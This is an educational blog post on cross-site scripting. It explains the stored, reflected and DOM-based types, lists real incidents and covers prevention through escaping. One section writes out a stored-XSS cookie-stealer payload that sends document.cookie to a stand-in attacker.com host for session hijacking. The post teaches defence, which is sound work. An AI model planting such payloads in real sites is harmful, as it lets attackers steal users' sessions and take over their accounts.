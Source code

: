 ```yaml
---
layout: post
title: Cross-site Scripting (XSS) 😈
slug: xss
URL: https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f
author: Martin Thoma
date: 2020-10-16 20:00
category: Code
tags: InfoSec, AppSec, Security, Cybersecurity, XSS
featured_image: logos/cybersecurity.png
---
```

Cross-site scripting (XSS) is a type of attack on websites where the attacker can make the attacked website deliver JavaScript to the user. This malicious JavaScript is then executed on the users’ machine.

Various types of XSS are distinguished:

* **Stored XSS**: The attacker can make the website store the XSS, e.g. by crafting a comment on Facebook or a chat message on Twitch which contains the malicious message. The malicious message is then delivered to every new client which accesses the page.
* **Reflected XSS**: Some websites allow you to create links that you can share. For example, a Google search. The URL contains the search term and if somebody clicks on that link, Google will show the search term from the link on the page. So Google reflects a parameter of the link on the page. If an attacker changes the search term to contain code, that code could potentially be executed by the browser of any user who clicks on the link.
* **DOM-based XSS**: In modern web applications the logic is mostly in the client. This means the attacker does not have to go to the server-side to do harm. The on-site JavaScript is attacked. In contrast to the reflected XSS, the server didn’t directly cause the issue. The (valid) JavaScript on the page read the attack.

The **attack surface** is pretty big for modern websites. Any user-supplied
data can contain an XSS attack. It could be a comments section, advertisement,
the document.referrer, URL fragments, …

## Why it Matters

* XSS is part of the [OWASP Top-10](https://owasp.org/www-project-top-ten/), meaning it’s recognized as a common vulnerability
* There are **14,625 CVE entries for XSS** vulnerabilities on mitre.org ([source](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=cross-site))
* **2005**: MySpace had a worm called [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)). Within 20 hours, the author got one million users to friend him ([source](https://www.vice.com/en/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)). **MySpace had to take the site down because of this XSS attack.**
* **2011**: Facebook worm allows automatic wall posts ([source](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=6c4ddf17-8e6d-4e92-8bec-f918cbf61afc&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments))
* **2013**: PayPal was vulnerable as discovered by [Robert Kugler](https://s3cur3.it/references) ([source](https://seclists.org/fulldisclosure/2013/May/163)). It was likely possible to create a link which made a payment when you clicked on it, without you needing to interact.
* **2013**: Yahoo was vulnerable to reflected XSS ([source](https://arstechnica.com/information-technology/2013/01/how-yahoo-allowed-hackers-to-hijack-my-neighbors-e-mail-account/))
* **2016**: Researcher found XSS vulnerability on Facebook ([source](https://whitton.io/articles/xss-on-facebook-via-png-content-types/))
* **2018**: Uber was vulnerable to a reflected XSS attack ([source](https://hackerone.com/reports/191810)). Uber paid $3000 for it.
* **2019**: Steam was vulnerable to a stored XSS attack ([source](https://hackerone.com/reports/409850)). Steam paid $7500 for it.
* **2020**: Facebook paid **$20,000** for finding an XSS attack ([source](https://portswigger.net/daily-swig/xss-vulnerability-in-login-with-facebook-button-earns-20-000-bug-bounty)).
* **2020**: Tumblr was vulnerable to a DOM-based XSS attack ([source](https://hackerone.com/reports/882546)). Automattic paid $350 for it.

![Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)](https://cdn-images-1.medium.com/max/9856/0*ExwQ55rXgbShCgmN)*Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)*

## How are XSS attacks executed?

There are various ways attackers can do harm: They can **make the website
unusable** if the XSS script is on it. They can run a **cryptocurrency miner**.
They can **steal sensitive data**.

As promised, it follows how to design a **cookie stealer** for **account
hijacking**.

We just assume that we have a website like Facebook where you can add comments
to posts. We assume that the comments are just taken as is and copied to
everybody who opens the page. The comment we make is

```html
<script>
    image = new Image();
    image.src='[https://attacker.com/steal?cookie='+document.cookie](https://attacker.com/?'+document.cookie);
</script>
```

You can see that this will not do anything — for the other users, this will
just look like an empty message. It will not refresh the page. It will not open
another window. But it will call http://attacker.com/steal with a GET request
which has a cookie parameter. Hence on the side of the attacker there only
needs to be a web server that is reachable and logs those requests. After that,
the attacker can use the cookie and impersonate the victim. The attacker
doesn’t know the victims' credentials but hijacked the session instead.

## What can I do to prevent XSS attacks?

Never blindly trust user data. Remove potentially harmful parts, escape parts
that will change the expected output. You might want to remove and `<script>`
tags or replace `<` by `&lt;`. It’s not enough, though. You can also execute
JavaScript with the
[onload attribute](https://www.w3schools.com/jsref/event_onload.asp). That
attribute can be added to many or even all HTML tags.

Various languages have methods to escape those:

* Go: [EscapeString](https://golang.org/pkg/html/#EscapeString)
* Java: [org.apache.commons.lang.StringEscapeUtils.escapeHtml](https://commons.apache.org/proper/commons-lang/javadocs/api-2.6/org/apache/commons/lang/StringEscapeUtils.html#escapeHtml(java.lang.String))
* JavaScript: [DOMPurify](https://www.npmjs.com/package/dompurify)
* Python: [html.escape](https://docs.python.org/3/library/html.html#html.escape)
* PHP: [htmlspecialchars](https://www.php.net/manual/en/function.htmlspecialchars.php)
* Ruby: [htmlescape](https://ruby-doc.org/stdlib-2.6.3/libdoc/erb/rdoc/ERB/Util.html#method-c-html_escape)
* Rust: [htmlescape::encode_miniaml](https://docs.rs/htmlescape/0.3.1/htmlescape/fn.encode_minimal.html)

Also, make sure you do that as early as possible. There should be a secure way
to use data from the database — and that should not require to know that there
is potentially harmful data within it. So escape the data before you put it in
the DB. Make sure escaping is
[idempotent](https://en.wikipedia.org/wiki/Idempotence) — escaping two times
should be the same as escaping once. If you really think you need the original
somewhere, you can have a _raw field in the database. Or you have a data access
layer (DAL) that takes care of the escaping.

Remember to **sanitize ALL user inputs**, not only stuff that was in input fields. Don’t forget about [URL fragments](https://martin-thoma.com/tags.html#klausur-ref) and [Document.referrer](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer) .

## See also

I love [Tom Scott](https://en.wikipedia.org/wiki/Tom_Scott_(entertainer)) and [Computerphile](https://www.youtube.com/user/Computerphile) and they made a video about the topic!

<center><iframe width="560" height="315" src="https://www.youtube.com/embed/L5l9lSnNMxg" frameborder="0" allowfullscreen></iframe></center>

## What’s next?

In this series about application security (AppSec) we already explained some of
the techniques of the attackers 😈 and also techniques of the defenders 😇:

* Part 1: [SQL Injections](https://medium.com/faun/sql-injections-e8bc9a14c95) 😈
* Part 2: [Don’t leak Secrets](https://levelup.gitconnected.com/leaking-secrets-240a3484cb80) 😇
* Part 3: [Cross-Site Scripting (XSS)](https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f) 😈
* Part 4: [Password Hashing](https://levelup.gitconnected.com/password-hashing-eb3b97684636) 😇

And this is about to come:

* CSRF
* DOS
* ZIP Bombs
* Credential Stuffing
* Cryptojacking

Let me know if you are interested in more articles! (info@martin-thoma.de)

